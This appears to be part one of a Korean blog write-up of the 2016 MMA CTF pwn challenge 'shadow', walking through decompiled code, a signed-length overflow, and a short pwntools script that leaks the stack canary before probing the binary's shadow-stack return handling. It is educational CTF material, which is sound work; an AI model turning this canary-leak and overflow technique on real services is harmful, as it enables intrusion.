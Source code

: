 ```yaml
---
layout: post
title: "[2016 mma] shadow 풀이 [1]"
date: 2018-06-20 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```

>### Host : pwn2.chal.ctf.westerns.tokyo
### Port : 18294
### [shadow](https://github.com/ctfs/write-ups-2016/blob/master/mma-ctf-2nd-2016/pwn/shadow-400/shadow)

1. **스택 카나리**문제를 풀어보고 싶다.

2. **쉐도우 스택**도 구경해보고 싶다.

이런 이유로 이 문제를 골랐습니다!

~~다 작성했는데 sublimetext git이 이상해서 날라감아 안ㅁ아ㅡㄴ마음나으만으~~

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/2016_mma/shadow/01.png)
{: refdef}

많네요. 으어어

{: refdef: style="text-align: center;"}
![main](/img/2016_mma/shadow/02.png)
{: refdef}

`main`이 신기하게 생겼네요.

`call`함수를 사용해 `_main`함수를 호출합니다.

{: refdef: style="text-align: center;"}
![call](/img/2016_mma/shadow/03.png)
{: refdef}

함수를 신기하게 부르네요. `push`도 볼 수 있는데 일단 넘어가 봅시다.

{: refdef: style="text-align: center;"}
![\_main](/img/2016_mma/shadow/04.png)
{: refdef}

보시다시피 함수의 인자가 안보입니다. 어셈코드로 보고 어디다가 적어둡시다.

{: refdef: style="text-align: center;"}
![message](/img/2016_mma/shadow/05.png)
{: refdef}

임마가 중요한 함수인데 주석에 적어놨듯이 `Message length`에서 취약점이 발생합니다.

그리고 `getnline`함수에서는 `read`함수를 사용해 입력받습니다.

- - -
# 0x01. 취약점 증명

```asm
  unsigned int v3; // eax
  int i; // [esp+24h] [ebp-34h]
  char v6[32]; // [esp+2Ch] [ebp-2Ch]
  unsigned int canary; // [esp+4Ch] [ebp-Ch]
  int savedregs; // [esp+58h] [ebp+0h]
```

우선 `v6`부터 값이 들어가니까 32개 꽉 채우면 `canary`를 가져올 수 있지 않을까 했어요.

{: refdef: style="text-align: center;"}
![no_canary](/img/2016_mma/shadow/06.png)
{: refdef}

### NOPE

읭 `gdb`로 열어서 왜 안보여주는지 알아봅시다.

{: refdef: style="text-align: center;"}
![null_canary](/img/2016_mma/shadow/07.png)
{: refdef}

원래 그런지는 모르겠는데 이 문제에선 `canary` 제일 앞에 `\x00`이 있더라구요.

```python
from pwn import *
context.log_level = "debug"

HOST = "localhost"
PORT = 4444
s = remote(HOST, PORT)
pause()

############################################

def send(name, length, message):
    s.recv()
    s.send(name)
    s.recv()
    s.sendline(length)
    s.recv()
    s.send(message)

payload = "A"*33

send("n", "-1", payload)
s.recvuntil("payload)
canary = u32("\x00" + s.recv(3))

print "[*] canary : " + hex(canary)
```

{: refdef: style="text-align: center;"}
![yes_canary](/img/2016_mma/shadow/08.png)
{: refdef}

`canary`값을 알아냈어요. 그럼 `ret`까지 쭉 덮으면 풀리겠네요!

{: refdef: style="text-align: center;"}
![before_ret](/img/2016_mma/shadow/09.png)
{: refdef}

헤헤 보시면 `EBP`에 `CCCCDDDD`가 있는걸 볼 수 있어요.

{: refdef: style="text-align: center;"}
![after_ret](/img/2016_mma/shadow/10.png)
{: refdef}

띠용! `call 0x8048cee`가 실행되니까 `EBP`가 정상적으로 바뀌네요.

{: refdef: style="text-align: center;"}
![0x8048cee](/img/2016_mma/shadow/11.png)
{: refdef}

해당 주소로 가보니 `ret`이라는 함수가 문제네요.

`restore_eip`는 `.bss`정도로 예상하고 눌렀는데...

```
.asm:08048D08 restore_eip     db  83h                 ; DATA XREF: ret+11↑o
.asm:08048D09                 db 0ECh
.asm:08048D0A                 db    4
.asm:08048D0B                 db 0E8h
```

`asm`...? 왜 리턴주소가 코드영역에 있죠?

- - -
### to be continue
